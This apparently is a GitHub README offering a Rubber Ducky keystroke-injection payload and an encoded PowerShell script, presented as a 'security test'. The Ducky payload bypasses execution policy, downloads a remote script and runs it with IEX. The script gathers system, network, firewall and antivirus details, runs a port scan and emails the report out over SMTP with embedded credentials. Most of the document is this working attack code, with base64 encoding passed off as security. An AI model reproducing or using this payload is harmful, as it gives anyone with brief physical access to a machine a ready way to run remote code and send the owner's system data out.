 # Rubber-Ducky-Script

This script performs security tests, gathers system and network data, and emails a report. The script is encoded for security.

#### Encrypted PowerShell Script

```powershell
# Script content
$script = @"
# Email config
\$smtpServer = "smtp.example.com"
\$smtpFrom = "you@example.com"
\$smtpTo = "recipient@example.com"
\$messageSubject = "Security Test Report"
\$smtpUser = "you@example.com"
\$smtpPass = "yourpassword"

# Collect data
\$sysInfo = Get-ComputerInfo | Select-Object -Property CsName, WindowsVersion, OsArchitecture
\$networkInfo = Get-NetAdapter | Select-Object -Property Name, Status, MacAddress
\$portScanResults = Test-NetConnection -ComputerName "192.168.1.1" -Port 22,80,443
\$firewallStatus = Get-NetFirewallProfile | Select-Object -Property Name, Enabled
\$antivirusStatus = Get-CimInstance -Namespace "root/SecurityCenter2" -ClassName "AntiVirusProduct" | Select-Object -Property displayName

# Compile report
\$report = @"
System Info:
\$($sysInfo | Format-List | Out-String)

Network Info:
\$($networkInfo | Format-Table | Out-String)

Port Scan:
\$($portScanResults | Format-Table | Out-String)

Firewall:
\$($firewallStatus | Format-Table | Out-String)

Antivirus:
\$($antivirusStatus | Format-Table | Out-String)
"@

# Send email
\$mailMessage = New-Object system.net.mail.mailmessage
\$mailMessage.from = \$smtpFrom
\$mailMessage.To.add(\$smtpTo)
\$mailMessage.Subject = \$messageSubject
\$mailMessage.Body = \$report
\$smtp = New-Object Net.Mail.SmtpClient(\$smtpServer)
\$smtp.Credentials = New-Object System.Net.NetworkCredential(\$smtpUser, \$smtpPass)
\$smtp.Send(\$mailMessage)
"@

# Encode and execute
$encodedScript = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($script))
Invoke-Expression "powershell -EncodedCommand $encodedScript"
```

### Rubber Ducky Script

```Rubber Ducky
DELAY 500
STRING powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "& { (New-Object Net.WebClient).DownloadString('https://example.com/encoded_script.ps1') | IEX }"
ENTER
```

### Instructions

1. **Upload**: Upload the PowerShell script to a web server.
2. **Update**: Modify email settings in the PowerShell script.
3. **Load**: Load the Rubber Ducky script and run it.

This script collects system and network data, performs security tests, and emails the report, all encoded for security.
